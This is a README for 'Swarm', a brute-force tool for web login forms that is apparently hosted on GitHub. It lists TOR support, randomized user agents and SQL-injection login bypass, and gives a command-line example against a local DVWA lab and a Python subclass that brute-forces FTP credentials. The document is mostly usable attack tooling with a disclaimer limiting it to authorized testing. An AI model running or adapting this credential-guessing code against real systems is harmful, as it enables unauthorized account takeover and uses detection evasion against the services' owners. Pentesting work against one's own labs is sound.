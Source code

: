# DISCLAIMER
**Swarm is for education/research purposes only. The author takes NO responsibility and/or liability for how you choose to use any of the tools/source code/any files provided.
 The author and anyone affiliated with will not be liable for any losses and/or damages in connection with use of ANY files provided with Swarm.
 By using Swarm or any files included, you understand that you are AGREEING TO USE AT YOUR OWN RISK. Once again Swarm and ALL files included are for EDUCATION and/or RESEARCH purposes ONLY.
 Swarm is ONLY intended to be used on your own pentesting labs, or with explicit consent from the owner of the property being tested.** 


#About Swarm 
**Swarm is a Bruteforcing pentesting tool for bruteforcing html logins**
###Some Notable Features
* Multi-Threaded
* Randomized user agents
* Supports TOR
* By-pass logins via SQL Injections
* Easy to inherit from to create different types of bruteforcing tools

##Getting Started
```shell
git clone https://github.com/szech696/swarm && cd swarm
chmod 755 swarm		
```	
For all options
```shell
./swarm --help
``` 
##Basic example of how to use on Damn Vulnerable Web App
```shell
./swarm --url='http://localhost/dvwa/login.php' --user-file='usernames.txt' --pass-file='passwords.txt' --verbose --threads=1 
```
##Inheritence Example - FTPHive
```python
from hive import Hive

# class: FTPHive
# description: Hive used to brute-force FTP Logins
class FTPHive(Hive):
        ftp = None
        def __init__(self):
                Hive.__init__(self)


        # function: attemptLogin        - Overriden
        # param: credential             - The credential to attempt a login with
        # return: Boolean               - True if Success | False if Failure
        # description: This function is responsible for attempting a login with the specified credential
        def attemptLogin(self, credential):
                success = False
                Hive.attemptLogin(self, credential)
                username = credential.username
                password = credential.password
                host = credential.host
                try:
                        self.ftp = FTP(host)
                        result = self.ftp.login(username,password)
                        # If result then this was a successful login
                        if result:
                                success = True
                        self.ftp.close()
                except:
                        pass
                return success


        # function: setup
        # description: Prepares this Hive for its attack, *NOTE* This must be called before start is called
        def setup(self):
                Hive.setup(self)

threadCount = 4
ftp_bruteforce = FTPHive()
ftp_bruteforce.target = 'ftp_server_address'		# specify the target 
ftp_bruteforce.usernameFile = 'usernames.txt'		# the username file to use
ftp_bruteforce.passwordFile = 'passwords.txt'		# the password file to use
ftp_bruteforce.verbose = True				# verbose output
ftp_bruteforce.setup()					# setup must be called before start, and after username/usernameFile, passwordFile, and target have been set
ftp_bruteforce.start(threadCount)			# starts the bruteforcing task
```

##Installing Dependencies 
```shell
pip install bitarray
pip install requests
pip install -U requests[socks]
pip install pexpect
apt-get install tor
```
